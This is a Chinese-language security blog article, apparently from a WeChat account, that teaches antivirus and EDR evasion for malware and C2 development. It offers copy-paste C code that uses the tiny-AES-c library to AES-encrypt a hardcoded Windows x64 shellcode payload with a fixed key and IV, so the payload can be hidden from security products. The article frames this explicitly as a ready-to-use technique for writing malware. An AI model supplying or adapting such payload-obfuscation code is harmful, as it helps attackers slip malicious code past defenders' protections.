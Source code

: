#  免杀必会- 规避杀软的库

原创 Gamma最强突破手  [ Gamma实验室 ](javascript:void\(0\);)

**Gamma实验室** ![]()

微信号 HackerLearning

功能介绍
Gamma实验室是专注于网络安全攻防研究的实验室，不定时向外输出技术文章以及自主研发安全工具，技术输出不限于：渗透，内网，红队，免杀，病毒分析，逆向，ctfwp等,实验室只用于技术研究，一切违法犯罪与实验室无关！

____

___发表于_

收录于合集

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135700.png)

点击上方“蓝字”，关注更多精彩

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135701.png)

## 前言

在编写恶意软件时，我们时常会用到系统的一些库，库的使用是非常简单，好用的，只需要导入头文件，那么就可以使用相应的api或函数，但是如果用于免杀或者c2，但是在EDR和终端软件横行的现在，不太“好”，下面将是我们在做免杀时或自己开发c2时常用的一些库，有现成调用代码，复制粘贴即可使用。

## 加密库

做免杀时或自己开发c2时，加密话题是永远离不开的，无论是代码加密，流量加密，或者是内存加密，都是十分重要的，且必须的环节，windows
中也有许多和加密有关的库，但是比较常用的和加密效果比较好的，那么就是AES加密，在windows中实现AES最省事代码量最小的的办法就是使用https://github.com/kokke/tiny-
AES-c 这个库，导入简单，调用APi也十分简单。

要使用这个库，只需将以下头文件和源文件添加到您的项目中。

  * AES.hpp

  * aes.h

  * aes.c

添加好直接使用就行，如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#include <stdio.h>#include "lib/aes.hpp"  
    int main(){  unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";  SIZE_T shellcodeSize = sizeof(shellcode);  unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";  unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";  struct AES_ctx ctx;  AES_init_ctx_iv(&ctx, key, iv);  AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);    #相应的解谜的话，只需使用该AES_CBC_decrypt_buffer()函数。  printf("Encrypted buffer:\n");  for (int i = 0; i < shellcodeSize - 1; i++) {    printf("\\x%02x", shellcode[i]);  }  printf("\n");}